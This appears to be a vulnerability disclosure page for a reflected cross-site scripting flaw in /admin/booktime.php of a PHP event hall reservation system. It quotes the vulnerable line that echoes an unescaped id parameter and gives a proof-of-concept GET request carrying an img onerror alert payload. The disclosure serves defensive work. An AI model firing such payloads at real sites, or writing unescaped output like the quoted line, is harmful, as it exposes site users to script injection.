 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS booktime.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /admin/booktime.php

## Code
```php
            <h1 class="logo "><a href="../home.php?id=<?php echo $id; ?>">Emisha</a></h1>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/booktime.php?id="><img+src%3dx+onerror%3dalert("NoChizPlz")>&room_id=1 HTTP/1.1
Host: [REDACTED]
```

## Screenshot


